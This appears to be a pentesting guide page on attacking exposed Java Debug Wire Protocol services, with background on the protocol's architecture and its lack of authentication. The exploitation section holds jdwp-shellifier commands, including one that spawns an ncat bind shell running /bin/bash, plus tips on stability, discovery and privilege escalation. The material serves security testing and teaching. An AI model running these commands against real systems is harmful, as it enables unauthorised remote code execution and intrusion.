 # Pentesting JDWP - Java Debug Wire Protocol

## Exploiting

You can use the python exploit located in [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.  
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the **Java Debug Wired Protocol** and you may be able to move laterally or even **escalate privileges** \(if executed as root\).

## More details

**Copied from** [**https://ioactive.com/hacking-java-debug-wire-protocol-or-how/**](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)\*\*\*\*

### **Java Debug Wire Protocol**

**Java Platform Debug Architecture \(JPDA\)**JDWP is one component of the global Java debugging system, called the Java Platform Debug Architecture \(JPDA\)\[2\]. The following is a diagram of the overall architecture:

[![](https://ioactive.com/wp-content/uploads/2014/04/jdpa.png)](https://ioactive.com/wp-content/uploads/2014/04/jdpa-1.png)

The Debuggee consists of a multi-threaded JVM running our target application. In order to be remotely debuggable, the JVM instance must be explicitly started with the option -Xdebug passed on the command line, as well as the option -Xrunjdwp \(or -agentlib\). For example, starting a Tomcat server with remote debugging enabled would look like this:

[![](https://ioactive.com/wp-content/uploads/2014/04/tomat.png)](https://ioactive.com/wp-content/uploads/2014/04/tomat-1.png)

As shown in the architecture diagram, the Java Debug Wire Protocol is the central link between the Debugger and the JVM instance. Observations about the protocol include:

* It is a packet-based network binary protocol.
* It is mostly synchronous. The debugger sends a command over JDWP and expects to receive a reply. However, some commands, like Events, do not expect a synchronous response. They will send a reply when specific conditions are met. For example, a BreakPoint is an Event.
* It does not use authentication.
* It does not use encryption.
